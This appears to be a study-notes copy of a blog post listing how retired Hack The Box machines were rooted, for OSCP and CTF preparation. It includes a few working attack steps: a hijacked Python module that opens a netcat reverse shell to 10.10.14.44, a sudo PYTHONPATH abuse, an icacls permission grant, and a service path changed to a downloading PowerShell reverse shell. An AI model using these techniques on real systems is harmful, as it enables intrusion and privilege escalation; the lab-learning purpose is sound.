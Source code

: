 # hack the box learning

https://infinitelogins.com/2020/12/12/list-of-privilege-escalation-methods-on-hack-the-box-machines/


List of Privilege Escalation Methods on Hack The Box Machines
Posted on December 12, 2020 by Harley in Hack The Box
This post will contain a list of retired Hack The Box machines and the methods used by Ippsec to escalate privileges. The idea is to provide a list of privesc methods to review when you’re stuck and unable to find the intended way to escalate when you’re taking the OSCP exam and/or participating in a CTF.

This list will be updated as time goes on.

Linux Machines:
OpenAdmin: Linux Machine Retired in May 2020

Ippsec was able to abuse a public exploit to get command execution as www-data. This allowed for a low-privileged reverse shell.
Once on the box as www-data, he was able to enumerate the config files for the webserver, and found plaintext credentials for the SQL database.
Connecting to the SQL database didn’t return anything new, but we were able to enumerate additional users on the box from /etc/passwd, and found that the credentials to the database were being reused for the Jimmy user account.
We also found that an additional webserver was listening on localhost port 52846 by running ss -lntp.
Reviewing the configuration files that power this webserver reveals a SHA256 hash that we’re able to decrypt the cleartext password to. This reveals Johanna’s SSH key, which we then can leverage John to crack the encryption on. Finally, we’re able to SSH into the box as Johanna.
After using SSH to login as Johanna, we found that the Nano binary had its SUID bit set. Using GTFObins allowed for a way to escape and escalate to root.
Admirer: Linux Machine Retired in September 2020

We’re able to find credentials for a user named Waldo, which allows us to SSH into the box.
From here, we run sudo -l and find that he’s able to write to run the following as sudo. /opt/scripts/admin_tasks.sh
Reviewing the code of admin_tasks.sh, we find that it calls on another script when performing a web backup. That script is /opt/scripts/backup.py.
It doesn’t look like we have a way to pass any parameters, but the script imports a Python module with the following line: from shutil import make_archive
This means that we can create our own shutil.py file, provide the path when we execute the parent script, and should be able to execute Python code as root. We start by making a file at /opt/a/shutil.py with the following code:
import os
def make_archive(a, b, c):
os.system('nc 10.10.14.44 443 -e "/bin/sh"')
Then finally we can start a netcat listener, and run the script as sudo while passing the PYTHONPATH variable to our custom location.
sudo PYTHONPATH=/tmp/a /opt/scripts/admin_tasks.sh
Magic: Linux Machine Retired in Aug 2020

Ippsec was able to gain a low-privileged shell by using a SQL injection to bypass the initial login page, and then uploading a malicious PHP web-shell. This gets us on the box as www-data.
Looking through the website configuration files, we find that the credentials for a user are stored in plaintext. These are used to connect to a local database.
Dumping the contents of this database using the captured credentials reveals another set of credentials for a new user, named Theseus.
We find that the password taken from the database works to switch over to the Thesues user in Linux.
Now we restart our enumeration and end up running commands to see what files we have write permissions to.
find / -user theseus -ls 2>/dev/null
find / -group users -ls 2>/dev/null
This returns a binary with the SUID bit set: /bin/sysinfo
Running strace against this shows that it will use the binary called free, but it doesn’t use an absolute path. This allows us to create our own free binary, update our path so that our custom free binary gets executed instead.
Now running the sysinfo binary will call upon our custom free binary in the root context, therefor giving us a root reverse shell.
Windows Machines:
Chatterbox: Windows Machine Retired in June 2018

You’re able to get an initial shell by using a public BOF exploit. This will get a shell as Alfred.
Once on the box, you find that you’re able to read the Administrator’s Desktop, but you can’t read the root.txt file.
Using acals, we find that we have Full Control of the desktop, which means we can grant ourselves access to root.txt with the following command: icacls root.txt /grant alfred:F
We also find that there are autologin creds stored in cleartext. These creds are for the Alfred user, but we’re able to actually reuse the same password for the Administrator account using PowerShell to gain a reverse shell as Admin.
SecNotes: Windows Machine Retired in January 2019

Ippsec was able to gain a low-privileged shell as a user named Tyler. Inside Tyler’s Desktop directory was a link to a file named bash.lnk. This was a hint that Bash for Windows was installed. Because of this, he was able to look through the appdata for the installed application, find the filesystem used by the virtual machine container, and open the contents of the root users’ .bash_history file. Within this was the local administrator credential to the box in plaintext.

Bastion: Windows Machine Retired in Sep 2019

Ippsec was able to gain a low-privileged shell as a user named L4mpje. Eventually he came across the Program Files (x86) directory that showed an application called mRemoteNG was installed. This stood out because all other applications appeared to be pretty default. Doing a Google search on “mRemoteNG password decrypt” returned a handful of articles showing how you could extract hashes from the config file of this application using tools on Github. Doing this allowed us to gather the local admin user credentials.

ServMon: Windows Machine Retired in June 2020

Ippsec was able to find cleartext creds via LFI and use those to SSH into the box as a low-privileged user named Nadine. Enumerating the box confirmed that an application called NSClient was running, which appears execute remote commands/scripts based on what jobs you schedule in the webapp. Using a command that uses the nsclient.exe binary, we were able to extract the password to login to the admin of this application in cleartext. We set up an SSH tunnel so that we can access the web interface as localhost, sign in with this captured password, and then schedule a job that executes our malicious PowerShell command.

Remote: Windows Machine Retired in Sept 2020

Ippsec was able to get a low-level shell by abusing a public exploit for the CMS powering the site.
Running whoami /all showed that SeImpersonatePrivilege was enabled, which allow for a Potato-based attack.
WinPEAS output helps us determine that we can modify UsoSvc service, along with start it.
Using sc.exe, we’re able to modify the binary path used by this service to instead launch the following command: cmd.exe /c powershell.exe -EncodedCommand <encodedCommand>
The encoded command was configured to download a reverse shell and execute it into memory, which then allowed escalation to SYSTEM.
Buff: Windows Machine Retired in Nov 2020

Ippsec was able to gain a low-privileged shell as a user named Shaun. He ran the WinPEAS script and spoke about a few items that stood out. First, he saw that Watson returned a handful of CVEs related to Windows Build version, but he said he’ll save those for last due to stability issues with those type of exploits. Next, he points out that an administrator is currently logged in, so he suggests we look at processes running as administrator currently. He found that SQL was running so we may want to poke around in that. We can write into the c:\xampp directory, so that’s interesting. After this script finished, he started enumerating the box and came across “Tasks.bat” within his Documents directory, which executes a file that starts the webserver. In Downloads, he finds a “CloudMe_1112.exe” file. Running searchsploit against this returns a handful of BOF vulnerabilities. Exploiting this returns a reverse shell running as administrator.


# ENumeration cheatsheets

https://infinitelogins.com/enumeration-cheatsheets/



